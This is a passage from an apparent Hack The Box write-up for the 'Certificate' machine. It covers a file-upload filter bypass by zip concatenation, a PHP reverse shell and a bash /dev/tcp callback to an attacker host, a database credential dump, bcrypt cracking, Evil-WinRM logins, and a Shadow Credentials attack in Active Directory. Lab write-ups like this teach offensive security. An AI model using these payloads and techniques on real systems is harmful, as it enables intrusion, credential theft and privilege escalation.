Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundaryW9CJ5b2mq59aslAK
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundaryW9CJ5b2mq59aslAK
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundaryW9CJ5b2mq59aslAK
Content-Disposition: form-data; name="file"; filename="hello.php%00.pdf"
Content-Type: application/pdf


%PDF-1.7
%

<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>

------WebKitFormBoundaryW9CJ5b2mq59aslAK--

```

```shell
HTTP/1.1 200 OK
Date: Sun, 01 Jun 2025 16:52:08 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 10160


<--- CUT FOR BREVITY --->
            <div class="col-lg-8">
                    <div class="row">
                        <div class="col-lg-12">
                            <blockquote class="generic-blockquote">
                            File uploaded successfully!. You can check your uploaded assignment file(in case you want to re-upload it or do some changes) <a href='static/uploads/fd5b3018c29991130b22f3381786067b/hello.php%00.pdf'>HERE</a>
                            </blockquote>
                        </div>
                    </div>
```

Since that didn't lead to `Remote Code Execution (RCE)` as expected, we tried putting our malicious file into an `Zip-archive`. But that didn't worked either.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ zip hello.zip hello.php%00.pdf 
  adding: hello.php%00.pdf (deflated 9%)
```

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 679
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVCJa40SjeVGTBvdD
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundaryVCJa40SjeVGTBvdD
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundaryVCJa40SjeVGTBvdD
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundaryVCJa40SjeVGTBvdD
Content-Disposition: form-data; name="file"; filename="hello.zip"
Content-Type: application/zip

<--- CUT FOR BREVITY --->
------WebKitFormBoundaryVCJa40SjeVGTBvdD--

```

```shell
HTTP/1.1 200 OK
Date: Sun, 01 Jun 2025 16:54:27 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 10160


<--- CUT FOR BREVITY --->
<div class="col-lg-8">
                    <div class="row">
                        <div class="col-lg-12">
                            <blockquote class="generic-blockquote">
                            File uploaded successfully!. You can check your uploaded assignment file(in case you want to re-upload it or do some changes) <a href='static/uploads/fd5b3018c29991130b22f3381786067b/hello.php%00.pdf'>HERE</a>
                            </blockquote>
                        </div>
                    </div>
```

### Upload Filter Bypass through Zip-File Concatenation

In order to `bypass` the `restrictions` set by the `upload filter` we finally chose a technique called `Zip-File Concatenation`. Therefore we followed the steps explained in the following article.

- [https://cybersecuritynews.com/hackers-employ-zip-file-concatenation/](https://cybersecuritynews.com/hackers-employ-zip-file-concatenation/)

First we downloaded a completely legitimate `.pdf` file and `zipped` it using `7-Zip`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ 7z a foobar.zip foobar.pdf 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive:
1 file, 69988 bytes (69 KiB)

Creating archive: foobar.zip

Add new data to archive: 1 file, 69988 bytes (69 KiB)

    
Files read from disk: 1
Archive size: 56599 bytes (56 KiB)
Everything is Ok
```

Then we grabbed the `reverse shell` of our trust (another shout-out to `Ivan Sincek`!), modified it to our needs and repeated the process.

- [https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php)

```shell
┌──(kali㉿kali)-[/media/…/Machines/Certificate/files]
└─$ tail barfoo.php 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.15', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ 7z a barfoo.zip barfoo.php

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive:
1 file, 9405 bytes (10 KiB)

Creating archive: barfoo.zip

Add new data to archive: 1 file, 9405 bytes (10 KiB)

    
Files read from disk: 1
Archive size: 2704 bytes (3 KiB)
Everything is Ok
```

As last step we used `cat` (very important!) to create a `combined archive` by adding firstly the `archive` containing the `legitimate` file and secondly the `archive` with our `reverse shell` in it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ cat foobar.zip barfoo.zip > combined.zip
```

In order to pull it off we first had to upload the legitimate `.pdf` file to generate the `static URL`.

- [http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/foobar.pdf](http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/foobar.pdf)

Then we uploaded the `combined.zip` right from the same `upload form`.

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 60434
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7mqtLq8ptQXYBI4C
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundary7mqtLq8ptQXYBI4C
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundary7mqtLq8ptQXYBI4C
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundary7mqtLq8ptQXYBI4C
Content-Disposition: form-data; name="file"; filename="combined.zip"
Content-Type: application/zip

<--- CUT FOR BREVITY --->
```

Then we changed the `URL` to the file containing the `reverse shell payload` and got a `callback`.

- [http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/barfoo.php](http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/barfoo.php)

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.37.186] 51834
SOCKET: Shell has connected! PID: 3720
Microsoft Windows [Version 10.0.17763.6532]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\certificate.htb\static\uploads\fd5b3018c29991130b22f3381786067b>
```

### Enumeration (xamppuser)

Since we got a `low-privileged` session as the user `xamppuser` we started the `enumeration` by checking our `permissions`.

```cmd
C:\xampp\htdocs\certificate.htb\static\uploads\fd5b3018c29991130b22f3381786067b>whoami /all

USER INFORMATION
----------------

User Name             SID                                          
===================== =============================================
certificate\xamppuser S-1-5-21-515537669-4223687196-3249690583-1130


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                         Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Since we didn't had any useful permissions we looked for additional `users` on the box.

```cmd
C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 7E12-22F9

 Directory of C:\Users

12/29/2024  06:30 PM    <DIR>          .
12/29/2024  06:30 PM    <DIR>          ..
12/30/2024  09:33 PM    <DIR>          Administrator
11/23/2024  07:59 PM    <DIR>          akeder.kh
11/04/2024  01:55 AM    <DIR>          Lion.SK
11/03/2024  02:05 AM    <DIR>          Public
11/03/2024  08:26 PM    <DIR>          Ryan.K
11/26/2024  05:12 PM    <DIR>          Sara.B
12/29/2024  06:30 PM    <DIR>          xamppuser
               0 File(s)              0 bytes
               9 Dir(s)   4,494,254,080 bytes free
```

| Usernames  |
| ---------- |
| akender.kh |
| Lion.SK    |
| Ryan.K     |
| Sara.B     |

## Privilege Escalation to Sara.B

While searching through the `xampp` directory we found some `credentials` for the `MySQL Database`.

```cmd
C:\xampp\htdocs\certificate.htb>type db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>
```

| Username                | Password         |
| ----------------------- | ---------------- |
| certificate_webapp_user | cert!f!c@teDBPWD |

After locating the `mysql.exe` we concatenated the information we obtained from the `configuration file` to dump all available `hashes` of the `database` and make them accessible via the `web application`.

```cmd
C:\xampp\mysql\bin>dir
 Volume in drive C has no label.
 Volume Serial Number is 7E12-22F9

 Directory of C:\xampp\mysql\bin

12/26/2024  02:33 AM    <DIR>          .
12/26/2024  02:33 AM    <DIR>          ..
<--- CUT FOR BREVITY --->
10/30/2023  05:58 AM         3,784,616 mysql.exe
<--- CUT FOR BREVITY --->
              90 File(s)    146,340,758 bytes
               2 Dir(s)   4,494,254,080 bytes free
```

```shell
C:\xampp\mysql\bin>mysql.exe -u 'certificate_webapp_user' -p"cert!f!c@teDBPWD" -h 127.0.0.1 -D Certificate_WEBAPP_DB -e "SELECT * FROM users;" > C:\xampp\htdocs\certificate.htb\static\users_dump.txt
```

- [http://certificate.htb/static/users_dump.txt](http://certificate.htb/static/users_dump.txt)

```shell
id    first_name    last_name    username    email    password    created_at    role    is_active
1    Lorra    Armessa    Lorra.AAA    lorra.aaa@certificate.htb    $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10    teacher    1
6    Sara    Laracrof    Sara1200    sara1200@gmail.com    $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK    2024-12-23 12:47:11    teacher    1
7    John    Wood    Johney    johny009@mail.com    $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq    2024-12-23 13:18:18    student    1
8    Havok    Watterson    havokww    havokww@hotmail.com    $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti    2024-12-24 09:08:04    teacher    1
9    Steven    Roman    stev    steven@yahoo.com    $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2    2024-12-24 12:05:05    student    1
10    Sara    Brawn    sara.b    sara.b@certificate.htb    $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26    admin    1
12    foobar    foobar    foobar    foobar@foobar.local    $2y$04$Md3Odak1aPwJy5l7unoIZeGaagzGvPYI1iX6FInNDVPe/TsamcI4m    2025-06-01 09:35:24    student    1
13    barfoo    barfoo    barfoo    barfoo@barfoo.local    $2y$04$gTRZBHpuzOgYyNkrrTAc8.P00iI838gFYpR6bBzwlxWfDovgFEGni    2025-06-01 09:37:11    teacher    0
```

### Cracking the Hash

We got a hit with the `hash` of `Sara.B` after a few seconds which enabled us to login using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ cat sarab.hash 
$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ sudo john sarab.hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Blink182         (?)     
1g 0:00:00:01 DONE (2025-06-01 12:10) 0.5882g/s 7200p/s 7200c/s 7200C/s delboy..vallejo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password |
| -------- | -------- |
| sara.b   | Blink182 |

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'sara.b' -p 'Blink182'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents>
```

## Enumeration (Sara.B)

Since `Sara.B` didn't had the `user.txt` on her `Desktop` we assumed that there must be another step in the chain of `Privilege Esclation`. We checked her permissions first before me moved on to our next option. Unfortunately her permissions didn't lead us anywhere.

```shell
*Evil-WinRM* PS C:\Users\Sara.B\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\sara.b S-1-5-21-515537669-4223687196-3249690583-1109


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Help Desk                      Group            S-1-5-21-515537669-4223687196-3249690583-1110 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Active Directory Enumeration

With the `password` of `Sara.B` we finally could `dump` the `configuration` of the `Active Directory` with the help of `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ netexec ldap 10.129.37.186 -u 'sara.b' -p 'Blink182' --bloodhound --dns-tcp --dns-server 10.129.37.186 -c All
LDAP        10.129.37.186   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
LDAP        10.129.37.186   389    DC01             [+] certificate.htb\sara.b:Blink182 
LDAP        10.129.37.186   389    DC01             Resolved collection methods: dcom, group, container, acl, rdp, psremote, trusts, objectprops, localadmin, session
[12:17:42] ERROR    Unhandled exception in computer DC01.certificate.htb processing: The NETBIOS connection with the remote host timed out.                                                                                 computers.py:268
LDAP        10.129.37.186   389    DC01             Done in 00M 47S
LDAP        10.129.37.186   389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.37.186_2025-06-01_121655_bloodhound.zip
```

After importing the `.zip` into `BloodHound` we saw that `Sara.B` was member of the `ACCOUNT OPERATORS` group.



Through this `group membership` she where able the modify `57 (!!)` objects due to the `Access Control Lists (ACL)` and `Access Control Entry (ACE)` setting which was `GenericAll`.



## Privilege Escalation to Lion.SK

### Time and Date Synchronization

Whatever we wanted to do with those permissions we first needed to `synchronize` our `time and date` with the `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.37.186
```

### Access Control List (ACL) GenericAll Abuse Part 1

#### Shadow Credentials Attack Part 1

We moved our way through the `users` we found earlier on the box using `Shadow Credentials`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad shadow auto -username 'sara.b@Certificate.htb' -password 'Blink182' -account 'lion.sk'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: CERTIFICATE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'Lion.SK'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'e61a70c2-4acf-f48d-fe24-296e7f70bad7'
[*] Adding Key Credential with device ID 'e61a70c2-4acf-f48d-fe24-296e7f70bad7' to the Key Credentials for 'Lion.SK'
[*] Successfully added Key Credential with device ID 'e61a70c2-4acf-f48d-fe24-296e7f70bad7' to the Key Credentials for 'Lion.SK'
[*] Authenticating as 'Lion.SK' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'lion.sk@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'lion.sk.ccache'
[*] Wrote credential cache to 'lion.sk.ccache'
[*] Trying to retrieve NT hash for 'lion.sk'
[*] Restoring the old Key Credentials for 'Lion.SK'
[*] Successfully restored the old Key Credentials for 'Lion.SK'
[*] NT hash for 'Lion.SK': 3b24c391862f4a8531a245a0217708c4
```

With the user `Lion.SK` we got access to the `user.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'lion.sk' -H 3b24c391862f4a8531a245a0217708c4
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents>
```

## user.txt

```cmd
*Evil-WinRM* PS C:\Users\Lion.SK\Desktop> type user.txt
56f2d422d9f3d89daf80c17b357de391
```

## Enumeration (Lion.SK)

Once again we didn't get lucky by checking the `permissions` of our newly obtained `user`.

```cmd
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
certificate\lion.sk S-1-5-21-515537669-4223687196-3249690583-1115


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Domain CRA Managers            Group            S-1-5-21-515537669-4223687196-3249690583-1104 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Because of that we headed back to `BloodHound` and checked the `groups memberships` of `Lion.SK`. Interesting enough he was member of the group `DOMAIN CRA MANAGERS`.



As the `description` showed members of this `security group` were able to `issue` and `revoke` multiple `certificates` of `domain users`.



With this information we used once more `NetExec` to check if there was a `Certificate Authority (CA)` present and indeed we found `Certificate-LTD-CA` which we also added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.129.37.186 -u 'lion.sk' -H '3b24c391862f4a8531a245a0217708c4' -M adcs  
LDAP        10.129.37.186   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
LDAP        10.129.37.186   389    DC01             [+] certificate.htb\lion.sk:3b24c391862f4a8531a245a0217708c4 
ADCS        10.129.37.186   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.37.186   389    DC01             Found PKI Enrollment Server: DC01.certificate.htb
